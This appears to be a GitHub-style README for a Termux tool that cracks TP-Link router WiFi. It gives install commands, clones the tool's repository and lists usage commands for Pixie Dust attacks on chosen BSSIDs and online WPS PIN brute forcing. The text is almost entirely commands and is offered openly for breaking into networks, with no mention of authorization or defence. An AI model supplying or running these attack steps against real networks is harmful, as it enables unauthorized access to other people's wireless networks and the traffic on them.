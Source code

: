 ## WPS_Wifi_Cracker_For_TP-Link_Router
### Hack TP Link Wifi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
$ apt update && apt upgrade -y
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/mrrininfo/Wifi.git
$ chmod +x Wifi/Rin_crack_wifi.py
To Run: 
$ sudo python Wifi/Rin_crack_wifi.py -i wlan0 -K
```

#### Example : `sudo python Rin_crack_wifi.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Rin_crack_wifi.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python Rin_crack_wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Rin_crack_wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
